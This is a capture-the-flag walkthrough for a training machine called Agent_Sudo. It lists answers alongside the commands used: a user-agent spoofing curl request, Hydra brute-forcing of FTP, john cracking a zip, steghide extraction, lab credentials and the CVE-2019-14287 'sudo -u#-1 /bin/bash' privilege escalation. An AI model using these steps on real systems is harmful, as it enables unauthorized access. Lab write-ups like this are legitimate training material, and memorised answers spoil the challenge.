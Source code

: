 #Machine Name : Agent_Sudo
#Machine IP : 110.10.167.223

***TASK1***
Deploy

***TASK2***
1.How many open ports?
:3

2.How you redirect yourself to a secret page?
:user-agent

3.What is the agent name?
:chris

use command)
curl "{ip}" -H "user-agent:c" -L


***TASK3***
1.FTP Password
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-02 14:31:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.167.223:21/
[STATUS] 159.00 tries/min, 159 tries in 00:01h, 14344240 to do in 1503:36h, 16 active
[21][ftp] host: 10.10.167.223   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-02 14:33:52
```
:crystal


2.Zip file password
```
: strings cutie.png
: binwalk -e cutie.png
: zip2john 8702.zip > hashes_for_john.txt
: john hashes_for_jhon.txt --worlist={password file path}
```
: alien

3.steg password
```
: 7z e 8702.zip
: cat  base64msg | base64 -d
```
:Area51


4.Who is the other agent ( in full name)?
```
: steghide extract -sf cute-alien.jpg
```
: james

5.SSh password
:hackerrules!

***TASK4: Capture the user flag***


***TASK5: Privilege Escalation***
```
#1 CVE number for the escalation : cve-2019-14287
# sudo -u#-1 /bin/bash

#2 What is the root flag : 53a02f55b57d4439e3341834d70c062

#3 (Bonus) Who is Agent R? : DesKel

```
